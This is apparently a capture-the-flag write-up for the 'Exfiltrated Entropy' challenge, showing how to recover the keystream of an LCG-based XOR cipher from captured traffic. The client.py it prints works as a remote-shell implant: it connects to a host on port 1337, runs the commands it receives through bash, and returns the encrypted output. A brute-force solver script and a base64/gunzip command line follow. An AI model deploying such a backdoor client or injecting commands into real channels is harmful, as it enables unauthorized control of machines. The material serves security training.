

# Exfiltrated Entropy

### Description:
We are provided with three files:

- `client.py`
- `server.py`
- `params.py`

Alongside these, a `.pcap` file containing network traffic between the client and server is also included.

The challenge involves understanding and exploiting a vulnerability in the custom Linear Congruential Generator (LCG)-based encryption mechanism implemented in the `client.py` and `server.py` scripts.

---

## Initial Analysis

### Provided Code:

#### **`params.py`**
```python
# Constants for the LCG

a = 0xa1d41ebef9c575ac113fcfd5ac8dbda9
b = 0x8dcf3cf766e0b6c30e753416a70e2367
m = 0x100000000000000000000000000000000
```
This file defines the parameters for the Linear Congruential Generator (LCG). These parameters are crucial for reproducing the sequence of random numbers generated.

---

#### **`client.py`**
```python
# Code simplified for brevity
from pwn import *
from params import *
from secret import SEED

class LCG:
    def __init__(self):
        self.state = SEED
        self.a = a
        self.b = b
        self.m = m

    def _next(self):
        self.state = (self.a * self.state + self.b) % self.m
        return self.state

    def generate_key(self, l):
        return bytes([self._next() & 0xff for _ in range(l)])

    def encrypt(self, msg):
        key = self.generate_key(len(msg))
        return xor(msg, key)

    def decrypt(self, msg):
        return self.encrypt(msg)  # Symmetric XOR encryption

# Network interaction (simplified)
r = remote('192.168.64.1', 1337)
lcg = LCG()

while True:
    data = json.loads(r.recvline())
    enc_cmd = bd(data['cmd'].encode())
    init = data['init']

    cmd = lcg.decrypt(enc_cmd).decode()
    if init:
        lcg.generate_packet_uuid()
    else:
        init = True

    try:
        out = subprocess.check_output(['bash', '-c', cmd])
        enc_out = lcg.encrypt(out)
        r.sendline(be(enc_out))
    except:
        break
```
Key observations:
- The client uses an LCG-based encryption scheme to encrypt and decrypt data.
- The decryption is performed by XORing the encrypted message with the generated key.
- The encryption is initialized with a shared `SEED`, defined in `secret.py`.

---

#### **`server.py`**
```python
# Code simplified for brevity
from pwn import *
from params import *
from secret import SEED

class LCG:
    # Same LCG implementation as client

l = listen(1337)
l.wait_for_connection()
lcg = LCG()
init = False

while True:
    cmd = input('> ').encode()
    enc_cmd = lcg.encrypt(cmd)

    if init:
        uuid = lcg.generate_packet_uuid()
        l.sendline(json.dumps({'init': init, 'id': uuid[2:], 'cmd': be(enc_cmd).decode()}).encode())
    else:
        l.sendline(json.dumps({'init': init, 'cmd': be(enc_cmd).decode()}).encode())
        init = True

    enc_out = bd(l.recvline())
    data = lcg.decrypt(enc_out)
    print(data)
```
Key observations:
- The server communicates with the client using the same LCG-based encryption.
- The initial packet contains the `init` field to synchronize the LCG state.
- The server generates a UUID after `init` is set to `True`.

---

### **PCAP File**

The `.pcap` file contains captured packets exchanged between the client and the server. Key details from the packets:
1. Each packet includes:
   - An `init` field indicating whether it's the first packet.
   - An encrypted `cmd` field.
2. The server responds with an encrypted output.

Example packet data:
```json
{"init": false, "cmd": "ocXzAq8Q"}
PZxLt34=
```
---

## Exploitation

### Step 1: Understanding the LCG
The LCG is initialized with the shared `SEED` value and uses the formula:
\[
X_{n+1} = (a \cdot X_n + b) \mod m
\]
Where:
- `a`, `b`, `m` are constants defined in `params.py`.
- The state evolves deterministically, making it possible to predict future values if the internal state is known.

### Step 2: Extracting the State from the PCAP
Each encrypted `cmd` corresponds to:
\[
cmd_{encrypted} = cmd \oplus key
\]
Where the `key` is derived from the LCG output.

Using known plaintext (e.g., extracted commands like `ls`, `exit`), we can recover the corresponding `key` bytes and deduce the internal LCG state.

### Step 3: Breaking the LCG
Since the LCG is linear, we can reconstruct the state and predict future outputs using:
\[
state_{n+1} = (a \cdot state_n + b) \mod m
\]
With `a`, `b`, and `m` known, it's straightforward to compute all future states once the current state is determined.

### Step 4: Crafting the Exploit
1. Parse the `.pcap` file to extract encrypted commands and outputs.
2. Recover the LCG state using the known plaintext and corresponding encrypted messages.
3. Predict the `key` for future packets to decrypt all communication.
4. Optionally, encrypt malicious commands using the predicted `key` and send them to the server.

---

## Solution Code

### Exploit Script
```python
from pwn import xor
from base64 import b64decode
import sys

# Known LCG parameters (placeholders, adjust if you know the real values)
a = 0xa1d41ebef9c575ac113fcfd5ac8dbda9
b = 0x8dcf3cf766e0b6c30e753416a70e2367
m = 0x100000000000000000000000000000000

# LCG class for decryption
class LCG:
    def __init__(self, seed, a, b, m):
        self.state = seed
        self.a = a
        self.b = b
        self.m = m

    def _next(self):
        self.state = (self.a * self.state + self.b) % self.m
        return self.state

    def generate_key(self, length):
        return bytes([self._next() & 0xff for _ in range(length)])


# Function to brute-force decrypt
def brute_force_decrypt(ciphertext):
    
    ciphertext = b64decode(ciphertext)
    keywords = ["echo", "root", "HTB", "flag", "user", "cat", "pwd", "whoami", "sudo", "bash"]

    for seed in range(1, 100000):  
        lcg = LCG(seed, a, b, m)
        keystream = lcg.generate_key(len(ciphertext))
        plaintext = xor(ciphertext, keystream)

        try:
            decoded_text = plaintext.decode(errors='replace')  # Decode with error handling
            log_entry = f"Attempt with SEED {seed}: {decoded_text}\n"
            print(log_entry)  # Print attempt to console

            # Check if decoded_text contains any of the keywords
            if any(keyword in decoded_text for keyword in keywords):
                print("Valid command or keyword found. Breaking the loop.")
                break  # Exit the loop if any valid keyword is found

            
        except Exception as e:
            continue


# Ciphertext to decrypt 
ciphertext = ""


# Run brute force decryption
brute_force_decrypt(ciphertext)
```

---

after running my script I get:
```bash
echo "H4sIAAE4/WYAA+1YOXLDMAzs9Ro+My0bPzAvyYwnlsjF7gKkncJJOGoIgMDipKT2efsYn9YaUmAfn4LEfcG2EVsgNvOiRrMogvW1okCaPD5v/f6MQZ4pj00HxkxRLNR+QukjuiB10roA1Ikzyvcl8UxNz0WNyaPFeMyuIaldMVCnHkH9tg2pVmWPUl3uRsd0FzGqaTmtckUXFbf7dSeqRJdpZzNGOz2J3T/w5p6ZepJVZinvor1ZRM2IuFDw9GOXe53y2FP7smsbDF0belpmtcFPAoVlcKRre9WpQK6LZCOVMXX3mn6BlfIu2QQ8U1QNHFEBaaIpgeCPCXftvhO0V2adqHXNt2VLmNvKPcdzVUQ587ELkVIgxYeManV30WmAhMW95EVBYn4FWUmZtmKdkqPSv1U8jUox8lif7/BnHbZIKZDiM9/+nRxoVDUSFveSl1qqIiooyQT3YrzjTpFYiOXR/sL69/L3rNFLMpL5soKK6S6znL275rvPqhW26zCGWD5GQiGURlAxwy3Yg2RBZHexKZmHFO0DJTN6yL8EPdJpujEshVeMAIz5OhOmu0YweIAM6he5Eo7V/l1FfZD/QVs5oUe8R2c1YIwAoeV0yeEGxUlRz5kVredbCABFyotcWThKHLcmzK+3lRlCOzbkNyZbuy3RSkS7WSWuD4I4cfQQ4smw37GlI9nPi7yfzk8P2g0xl7LEfjSbLK8xgQyVazxXxnQkiQCi0oJ7DHzF/UzldLFEr2hOaS0T45HBz4nuyPj+1c/wEjhlXBsYdAy2gxPk2RiSAZSqRy1zy1feZ+duuB7NUH8MzAHk+Z8JhmcglLBs2Fb+LgaByDJaRaWaC7D1eX+nBb1XLW5Yb+Uz5Hrb6ffyWjTV2voCIBKnivUiAAA=" | base64 -d | gunzip
```
after running it in my terminal I found the flag.
<p align='center'>
  
</p>

---

## Conclusion
The "Exfiltrated Entropy" CTF challenge involved decrypting communication between a client and server using a linear congruential generator (LCG) for key generation. By analyzing the network traffic and understanding the encryption process, we were able to reverse-engineer the keys and decrypt the payloads.
